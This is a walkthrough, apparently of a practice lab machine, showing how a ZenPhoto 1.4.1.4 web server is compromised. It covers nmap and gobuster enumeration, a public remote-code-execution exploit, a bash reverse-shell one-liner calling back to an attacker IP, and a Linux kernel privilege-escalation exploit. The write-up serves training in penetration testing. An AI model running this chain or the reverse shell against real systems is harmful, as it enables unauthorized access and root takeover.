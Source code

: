 # ZenPhoto

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 3000 192.168.175.41 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-01 20:19 +08
Nmap scan report for 192.168.175.41
Host is up (0.17s latency).
Not shown: 65531 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
23/tcp   open  telnet
80/tcp   open  http
3306/tcp open  mysql
```

Of all things, Telnet is open.&#x20;

### Web Enum --> ZenPhoto RCE

Port 80 just shows this:

<figure><img src="../../../.gitbook/assets/image (30).png" alt=""><figcaption></figcaption></figure>

A `gobuster` scan reveals the following directories:

```
$ gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://192.168.175.41/ -t 100
===============================================================
Gobuster v3.3
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.175.41/
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.3
[+] Timeout:                 10s
===============================================================
2023/07/01 20:22:15 Starting gobuster in directory enumeration mode
===============================================================
/index                (Status: 200) [Size: 75]
/test                 (Status: 301) [Size: 315] [--> http://192.168.175.41/test/]
```

Visiting `/test` reveals a ZenPhoto instance:

<figure><img src="../../../.gitbook/assets/image (53).png" alt=""><figcaption></figcaption></figure>

Viewing the page source reveals the version of ZenPhoto that is running:

<figure><img src="../../../.gitbook/assets/image (37).png" alt=""><figcaption></figcaption></figure>

There are RCE exploits available for this instance:

```
$ searchsploit zenphoto 1.4.1.4
----------------------------------------------------------- ---------------------------------
 Exploit Title                                             |  Path
----------------------------------------------------------- ---------------------------------
ZenPhoto 1.4.1.4 - 'ajax_create_folder.php' Remote Code Ex | php/webapps/18083.php
----------------------------------------------------------- ---------------------------------
```

This exploits works in getting me a webshell:

<figure><img src="../../../.gitbook/assets/image (48).png" alt=""><figcaption></figcaption></figure>

We can get a reverse shell using this one-liner:

```bash
bash -c 'bash -i >& /dev/tcp/192.168.45.164/4444 0>&1'
```

<figure><img src="../../../.gitbook/assets/image (45).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Kernel Exploit --> Root

This machine was running on a really old Linux kernel version:

```
www-data@offsecsrv:/home$ uname -a
Linux offsecsrv 2.6.32-21-generic #32-Ubuntu SMP Fri Apr 16 08:10:02 UTC 2010 i686 GNU/Linux
```

There are quite a few exploits that might work for this version of Linux running. I used this one:

{% embed url="https://www.exploit-db.com/exploits/15704" %}

Compile it on the machine itself using `gcc exploit.c -o exploit`. Then, run it to get a `root` shell:

<figure><img src="../../../.gitbook/assets/image (50).png" alt=""><figcaption></figcaption></figure>

Rooted!
